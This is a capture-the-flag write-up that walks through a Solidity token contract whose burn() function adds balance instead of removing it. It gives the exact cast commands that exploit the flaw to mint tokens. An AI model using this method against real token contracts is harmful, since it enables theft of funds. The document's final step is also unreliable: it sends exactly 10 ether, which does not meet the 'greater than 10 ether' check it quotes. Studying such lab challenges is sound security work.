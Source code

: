 This Heist require you to get at least 10 Ether from the NewBank that they create in the mist of Inju Bank fall. &nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.26;

import "./NewBank.sol";

contract Setup{
    NewBank public NB;
    address public player;

    constructor(uint256 _initialSupply) {
        NB = new NewBank(_initialSupply);
    }

    function setPlayer() public{
        require(msg.sender == tx.origin, "Only Human are allowed to be Player");
        player = msg.sender;
    }

    function isSolved() public view returns(bool){
        return NB.balanceOf(player) > 10 ether;
    }
}
```
&nbsp;  
In the *Setup Contract*, we can know that the *isSolved()* function require us to first *setPlayer()* and it can only be an EOA, meaning we can't use any Exploit Contract here. Now let's see other files that also given to us, *BetterERC20.sol* and *NewBank.sol*, we are going to see the *BetterERC20.sol* first &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBetterERC20 {
    function transfer(address _to, uint256 _value) external returns (bool);

    function transferFrom(
        address _from,
        address _to,
        uint256 _value
    ) external returns (bool);

    function approve(address _spender, uint256 _value) external returns (bool);

    function mint(uint256 _value) external;

    function burn(address _who, uint256 _value) external;

    function owner() external view returns (address);

    function balanceOf(address _who) external view returns (uint256);

    function allowance(
        address _owner,
        address _spender
    ) external view returns (uint256);

    function name() external view returns (string memory);

    function symbol() external view returns (string memory);

    function decimals() external view returns (uint8);
}
```
&nbsp;  
Turns out it's not a contract, but an Interface and to be precise, it's ERC20 Interface. Knowing that we are working with an ERC Standard, makes the scope of search much easier, what we need to be focused on here is a misimplementation or override of the ERC20 original function. For this, let's see the *NewBank Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {IBetterERC20} from "./BetterERC20.sol";

contract NewBank is IBetterERC20{
    address public override owner;
    mapping(address => uint256) public override balanceOf;
    mapping(address => mapping(address => uint256)) public override allowance;

    string public override name = "NewBank Token";
    string public override symbol = "NBT";
    uint8 public override decimals = 18;

    constructor(uint256 _initialSupply) {
        owner = msg.sender;
        balanceOf[msg.sender] = _initialSupply;
    }

    function transfer(address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[msg.sender] >= _value, "Insufficient balance");
        balanceOf[msg.sender] -= _value;
        balanceOf[_to] += _value;
        return true;
    }

    function transferFrom(address _from, address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[_from] >= _value, "Insufficient balance");
        require(allowance[_from][msg.sender] >= _value, "Allowance exceeded");
        balanceOf[_from] -= _value;
        balanceOf[_to] += _value;
        allowance[_from][msg.sender] -= _value;
        return true;
    }

    function approve(address _spender, uint256 _value) external override returns (bool) {
        allowance[msg.sender][_spender] = _value;
        return true;
    }

    function mint(uint256 _value) external override {
        require(msg.sender == owner, "Only Owner are allowed to mint!");
        balanceOf[msg.sender] += _value;
    }

    function burn(address _who, uint256 _value) external override {
        require(balanceOf[_who] <= _value, "Insufficient balance to burn");
        balanceOf[_who] += _value;
    }
    
}
```
&nbsp;  
After viewing all the function here, it seems almost everything is okay except the *burn()* function. *burn()* usually remove a token from the supply and deduct the balance, but this time it's adding it instead of deducting it, so this is the flaw. &nbsp;  
&nbsp;  
We already found the way to get ourselves some balance, by calling the *burn()* with the value of address pointing to our wallet with the value of 10 Ether, so let's just do that! &nbsp;  
&nbsp;  
```bash
// Getting the NewBank Address
cast call -r $RPC_URL $SETUP_ADDR "NB()"

// Get Ourselves 10 Ether
cast send -r $RPC_URL --private-key $PK $NB_ADDR "burn(address,uint256)" $WALLET_ADDR 10000000000000000000
```
&nbsp;  
By running the commands above in your terminal, you should've solve the lab!
